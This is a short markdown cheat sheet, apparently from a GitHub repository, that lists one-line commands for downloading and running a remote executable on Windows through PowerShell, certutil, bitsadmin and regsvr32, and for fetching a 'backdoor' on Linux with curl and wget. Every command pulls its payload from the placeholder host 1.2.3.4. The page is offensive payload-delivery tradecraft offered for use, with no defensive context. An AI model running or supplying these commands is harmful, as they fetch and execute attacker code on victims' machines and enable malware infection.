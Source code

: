 ## Windows
### Powershell
`powershell (new-object System.Net.WebClient).DownloadFile('http://1.2.3.4/5.exe','c:\download\a.exe');start-process 'c:\download\a.exe'`
### certutil
`certutil -urlcache -split -f http://1.2.3.4/5.exe c:\download\a.exe&&c:\download\a.exe`
### bitsadmin 
`bitsadmin /transfer n http://1.2.3.4/5.exe c:\download\a.exe && c:\download\a.exe`
### regsvr32 
`regsvr32 /u /s /i:http://1.2.3.4/5.exe scrobj.dll `
## Linux
### curl 
`curl http://1.2.3.4/backdoor`
### wget 
`wget http://1.2.3.4/backdoor`
